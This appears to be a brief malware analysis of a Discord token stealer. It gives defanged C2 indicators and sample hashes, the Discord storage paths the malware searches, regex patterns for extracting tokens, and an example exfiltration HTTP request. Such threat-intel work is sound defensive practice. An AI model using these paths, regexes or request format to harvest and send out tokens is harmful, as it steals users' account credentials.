 dd9500549f285c9095198f81a1aeff4910dd361ee79ed0fb9bc103e3a70837c5


```
centralcity.brazilsouth.cloudapp[.]azure[.]com 191.239.244.78
```



checks for 
```
Roaming\discord
Roaming\discordptb
Roaming\discordcanary
```

If found checks files in Local Storage\leveldb\ for tokens by reading files and using regex patterns

```
mfa\.[\w-]{84}
[\w-]{24}\.[\w-]{6}\.[\w-]{27}
```


Sends data to

```
hxxp://centralcity.brazilsouth.cloudapp[.]azure[.]com/brancao
```

Another sample:
c16c3e17fa5eb849033825b24c813242be3fcd9e1b48ea52c816a9b0b8d6e856

```
hxxp://centralcity.brazilsouth.cloudapp[.]azure[.]com/wl
```

Another sample:
ced418253024655d11588b97aba24aad3e80d215a1ed4ca1f7a8bf8ecf623216

```
hxxp://centralcity.brazilsouth.cloudapp[.]azure[.]com/tokyo
```


C2 traffic would look like this

```
GET /brancao HTTP/1.1
Host: centralcity.brazilsouth.cloudapp[.]azure[.]com
User-Agent: Go-http-client/1.1
Content-Length: 23
Sharkflow: mfa.012345678901234567890123456789012345678901234567890123456789012345678901234567891234
Accept-Encoding: gzip

{"foda-se": "kkkkkkkk"}

```
